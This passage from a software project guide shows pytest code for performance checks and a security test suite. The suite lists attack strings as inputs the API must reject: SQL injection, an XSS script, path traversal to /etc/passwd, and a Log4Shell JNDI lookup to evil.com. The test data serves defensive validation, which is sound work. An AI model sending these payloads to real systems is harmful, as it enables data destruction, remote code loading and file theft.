 ```python
            completion_time = time.time() - start_time
            
            assert completion_time < 10  # Should complete within 10 seconds
            assert all(results)  # All operations should succeed
    
    @pytest.mark.performance
    async def test_memory_usage(self):
        # Test for memory leaks and resource usage
        import psutil
        
        process = psutil.Process()
        initial_memory = process.memory_info().rss
        
        # Execute multiple workflows
        for i in range(50):
            await self.execute_test_workflow(f"MEM-TEST-{i}")
        
        final_memory = process.memory_info().rss
        memory_growth = final_memory - initial_memory
        
        # Memory growth should be reasonable (< 100MB)
        assert memory_growth < 100 * 1024 * 1024
```

### Security Hardening

#### 1. Security Audit Framework

**Security Testing Suite**
```python
# File: tests/security/test_security.py
class TestSecurityHardening:
    """Security vulnerability testing"""
    
    def test_input_validation(self):
        # Test SQL injection protection
        malicious_inputs = [
            "'; DROP TABLE tasks; --",
            "<script>alert('xss')</script>",
            "../../etc/passwd",
            "${jndi:ldap://evil.com/a}"
        ]
        
        for malicious_input in malicious_inputs:
            with pytest.raises((ValidationError, SecurityError)):
                self.api_client.post("/api/v1/tasks", {
                    "title": malicious_input,
                    "description": malicious_input
                })
    
    def test_authentication_security(self):
        # Test JWT token security
        # Test for weak tokens, expired tokens, tampered tokens
        
        # Test weak token
        weak_token = "weak_token_123"
        response = self.api_client.get(
            "/api/v1/tasks",
            headers={"Authorization": f"Bearer {weak_token}"}
        )
        assert response.status_code == 401
        
        # Test expired token
```